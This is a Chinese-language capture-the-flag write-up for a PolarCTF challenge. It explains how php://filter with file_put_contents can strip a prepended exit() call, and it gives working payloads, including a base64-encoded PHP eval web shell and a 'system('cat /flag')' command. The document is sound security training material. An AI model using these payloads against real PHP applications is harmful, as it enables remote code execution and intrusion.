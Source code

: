 ```yaml
---
date: 2024-06-08
categories: 
    - PolarCTF
tags:
    - CTF
    - 文件包含
    - php伪协议
---
```


# 每日一题 —— [PolarCTF]写shell

> 题目地址：<https://www.polarctf.com/#/page/challenges>

<!-- more -->

打开题目就是很简单的一行代码，他会把你输入的 `content` 并上前面的 `<?php exit();` 一起写入到你指定的文件内。

观察到题目使用了 `file_put_contents` 函数，这个函数是支持 php 伪协议的，所以我们可以尝试使用 `php://filter` 来对我们输入的内容进行转换。预期结果就是，我们输入的内容可以把前面的 `exit` 函数给弄得失效，并且我们写入的 php 代码可以生效。

首先尝试这个 payload:
 
```
?filename=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=1.txt

POST:
content= ?<hp phpipfn(o;)
```

注意 `content` 和 `?` 之间的空格，这是因为 `UCS-2LE` 和 `UCS-2BE` 之间是两两组队互相交换的。所以为了保证转换成功进行，我们使用空格让前面的数据维持一个偶数个。

最后发现没有效果，在 `/1.txt` 中，所有数据被原原本本地写入了进去，也就是说前面的 `exit()` 被照常执行了。具体原因不清楚，没有办法，我们只能换一个方法。 

现在我们测试一下 base64 的方法。我们先把需要的东西进行 base64 编码写入进去测试一下：

```
?filename=php://filter/convert.base64-encode/resource=1.txt

POST:
content=<?phpinfo();
```

打开 `/1.txt` 可以看到数据被成功以 base64 的方式写入了进去。但是我们需要往里写入原始数据，所以我们预先要准备好一串 base64 编码好的 payload. 那么前面的函数怎么办呢。这里涉及一个 base64 的知识：base64 在转换的过程中是 3:4 的比例转换的，也就是说，对于一串原始文本，每三个字符一组被转换为一串 base64 ，其长度为 4. 因此在把 base64 解码的过程中，会四个字符一组转换。另外 base64 只支持 `[A-Z]` `[a-z` `/` `+` `=` 这些字符，其余的字符都是会被当作垃圾字符直接舍弃掉。

因此观察前面的代码 `<?php exit();` ，如果我们将其认为是一段 base64 编码的话，他会被省略无关字符，变为 `phpexit` ，一共七个字符。那么如果我们转换为原始文本，为了不影响后面的 payload 的转换，按照 4:3 的转换标准，我们需要补上一个合法字符凑齐 4 的倍数，然后再跟上已经编码好的 payload, 如下:

```bash
aPD9waHAgZXZhbCgkX1BPU1RbMV0pOw==   # <?php eval($_POST[1]);
```

熟悉这一段的都知道，`PD9w` 开头的就是 php 代码了。前面的 a 就会帮忙补足所需要的字节数。因此最终 payload ：

```bash
?filename=php://filter/convert.base64-decode/resource=1.php

POST
content=aPD9waHAgZXZhbCgkX1BPU1RbMV0pOw==
```

注意和之前的 payload 不同的是，我把输出的文件名改成了 `1.php` ，这样才可以成功解析我们要的 php 代码。另外 `base64` 后面跟着的是 `decode` ，因为这一次是我们预先输入了一串 base64，服务器帮我们解析成了原始文本。

最后，通过访问 `/1.php` ，无论是蚁剑连接，还是直接手搓 `POST: 1=system('cat /flag');` 都没问题了。
